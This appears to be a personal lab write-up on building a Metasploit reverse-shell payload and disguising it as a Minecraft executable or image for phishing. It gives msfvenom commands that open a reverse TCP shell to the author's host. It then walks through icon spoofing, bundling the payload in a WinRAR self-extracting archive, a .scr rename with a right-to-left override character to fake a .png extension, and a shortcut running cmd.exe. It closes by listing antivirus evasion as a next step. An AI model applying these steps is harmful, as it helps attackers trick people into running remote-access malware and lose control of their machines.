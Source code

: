 # Reverse shell tcp exploit masked as minecraft.exe 

I've been getting some shitty phishing emails so I thought how I could make it more believable:

<img src="phishing.png" alt="img" />

This is kinda bad.

I saw the other day a video about something like "turn any executable into png" and i thought, what if I made a windows reverse tcp binary using msfvenom and named it as minecraft.exe? 

In this writeup we will do:
- Minecraft.exe reverse shell
- Minecraft.exe/png bundled with another file reverse shell
- Hidden CMD shortcut when opening the Minecraft.png file
- Maybe make a pdf reverse shell

Let's do it

## part 1

First I'm using bridged adapter kali linux VM with windows as my host machine. I am on the same 192.168.100.x network

We have a few payload options, we can use meterpreter or just normal shell:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.150.6 LPORT=4444 -f exe -o minecraft.exe`

`msfvenom -p windows/shell/reverse_tcp LHOST=192.168.150.6 LPORT=4444 -f exe -o minecraft.exe`


<img src="1.png" alt="img" />

I moved the file into my windows desktop. We can test that it works first by running the exe. If we geta shell we can change directory
`cd /d C:\` 

Just have to disable my antivirus since the binary itself is fingerprinted with metasploit

We will customize this executable to make it look legitimate following this tutorial by "ebola man"

Video: https://www.youtube.com/watch?v=cXEkSQl9wmw


<img src="2.png" alt="img" />

First we need resource hacker: https://www.angusj.com/resourcehacker/#download

<img src="2.5.png" alt="img" />

Then we get minecraft icon png and put it on our exe.

<img src="3.png" alt="img" />

Now we have a legitemately looking minecraft hack except windows defender instantly knows thats its a virus and when running it, it doesn't do anything which is sus

So let's forget the payload legitimacy first, what if we want to turn this into a legit looking PNG and just send it to a friend?

## part 2
According to the tutorial, we can bind a picture with the exe using Winrar. 

1. Select the picture and exe and add to archive

<img src="4.png" alt="img" />

2. Check "create SFX archive"

<img src="5.png" alt="img" />

3. Go to advanced SFX and put these

<img src="6.png" alt="img" />

4. Then modes unpack to temp folder and hide all

<img src="7.png" alt="img" />

5. Then text and icon, select your icon (must be ICO format)

<img src="8.png" alt="img" />

6. In update tab => overwrite all files

<img src="8.5.png" alt="img" />

<img src="9.png" alt="img" />

Now we get the same `minecraft.exe` but now it opens up an image we bundled it with when run

Change the extension from .exe to .scr

`minecraft.scr`

It will run the same 

Now we insert a special character by right clicking while editing file name, right before ouur file extension at `file|gnp.scr`

<img src="10.png" alt="img" />

=> insert special character => RLO

<img src="11.png" alt="img" />

Now it looks like this with and runs normally

## part 3
Another method is to create a folder with a shortcut of the file. I'm imagining this as a folder of pictures

Take the exe file from part 2 and change it to `minecraft.png`

It will run in CMD when you type `minecraft.png`

Create folder, create shortcut

Make original image file hidden in properties

In the shortcut properties, add `cmd.exe /c` in the target, and change the icon to something believable

Next up I need to think:
- How to bypass windows defender
- Set up remote server listener
- Better masking and stealthing after exploitation
- Post-exploitation objectives



Source: 

ebola man
https://www.youtube.com/watch?v=cXEkSQl9wmw

https://www.youtube.com/watch?v=78QSSB2NnwQ